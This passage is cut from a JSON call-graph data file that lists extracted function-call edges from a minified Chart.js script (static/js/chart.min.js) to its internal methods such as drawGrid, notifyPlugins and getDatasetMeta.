"calls", "source": "static/js/chart.min.js", "target": "_isVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawGrid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_layers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_isVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawGrid"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMatchingVisibleMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSortedVisibleDatasetMetas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveTickFontOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_maxDigits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveTickFontOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isForType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPrototypeOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "route"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "describe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "override"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unregister"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addControllers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getController"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPlugin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeControllers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removePlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "removeScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isForType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRegistryForType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_descriptors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_descriptors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "invalidate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_descriptors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createDescriptors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notifyStateChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createDescriptors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notifyStateChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_notify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pluginScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOptionScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "platform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "type"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "type"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "plugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clearCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clearCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "datasetScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "datasetAnimationScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "datasetElementScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pluginScopeKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_cachedScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOptionScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_cachedScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "chartOptionScopes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveNamedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getOwnPropertyNames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElementById"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unregister"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "acquireContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "listen"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "aspectRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "registry"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "running"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaximumSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDevicePixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_doResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ensureScalesHaveIDs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildOrUpdateScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateMetasets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_destroyDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_removeUnreferencedMetasets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_destroyDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildOrUpdateControllers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isDatasetVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "linkScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getController"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateMetasets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resetElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resetElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "createResolver"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_checkEventBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateHiddenIndices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "invalidate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildOrUpdateControllers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildOrUpdateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateDatasets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_eventHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateHoverStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "ensureScalesHaveIDs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "buildOrUpdateScales"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_checkEventBindings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unbindEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bindEvents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateHiddenIndices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getUniformDataChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getUniformDataChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateDatasets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "configure"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "running"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", 